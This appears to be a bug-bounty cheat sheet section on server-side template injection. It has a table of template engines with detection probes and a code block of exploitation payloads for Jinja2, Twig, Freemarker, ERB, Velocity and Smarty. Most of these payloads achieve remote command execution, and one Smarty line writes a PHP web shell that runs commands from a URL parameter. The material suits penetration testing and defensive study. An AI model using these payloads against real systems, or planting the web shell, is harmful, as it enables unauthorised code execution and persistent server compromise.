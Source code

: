 
### **21. Server-Side Template Injection (SSTI)**

| **Variant** | **Commonly Found In** | **Example Stack/Tech** | **Key Hunting Areas** | **Payloads** |
|---|---|---|---|---|
| **Jinja2 (Python)** | Flask, Django templates | Python web frameworks | User-controlled template variables | `{{7*7}}`, `{{config.items()}}` |
| **Twig (PHP)** | Symfony applications | PHP frameworks | Template name, variables | `{{7*7}}`, `{{_self.env.getRuntime()}}` |
| **Freemarker (Java)** | Spring Boot, Java apps | Java template engines | Template parameters | `${7*7}`, `<#assign ex="freemarker.template.utility.Execute"?new()>` |
| **ERB (Ruby)** | Ruby on Rails | Rails view templates | Template rendering with user input | `<%= 7*7 %>`, `<%= system('whoami') %>` |
| **Velocity (Java)** | Java applications | Apache Velocity | Template parameters | `#set($x=7*7)` |
| **Smarty (PHP)** | PHP applications | Smarty template engine | Template variables | `{php}echo shell_exec('whoami');{/php}` |
| **Pug/Jade (Node.js)** | Express.js applications | Node.js template engines | Template rendering | `#{7*7}`, code injection via includes |
| **Thymeleaf (Java)** | Spring Boot applications | Java web applications | Template expressions | `${7*7}`, Spring EL injection |

**Tech Stack Focus:**
- **High Priority**: Flask (Jinja2), Django templates, Symfony (Twig)
- **Medium**: Spring Boot (Thymeleaf/Freemarker), Express (Pug), Rails (ERB)
- **Legacy**: Smarty, Velocity, older template engines

**Detection Payloads:**
- Generic: `{{7*7}}`, `${7*7}`, `<%= 7*7 %>`, `#{7*7}`
- If returns `49` → likely SSTI vulnerable

**Exploitation Examples:**

```python
# Jinja2 (Python/Flask) - RCE
{{config.__class__.__init__.__globals__['os'].popen('whoami').read()}}
{{''.__class__.__mro__[1].__subclasses__()[396]('whoami',shell=True,stdout=-1).communicate()[0].strip()}}

# Twig (PHP/Symfony) - RCE
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("whoami")}}

# Freemarker (Java) - RCE
<#assign ex="freemarker.template.utility.Execute"?new()>${ex("whoami")}

# ERB (Ruby/Rails) - RCE
<%= system('whoami') %>
<%= `whoami` %>

# Velocity (Java) - File Read
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))

# Smarty (PHP) - RCE
{php}echo system('whoami');{/php}
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php eval($_GET['cmd']); ?>",self::clearConfig())}
```

---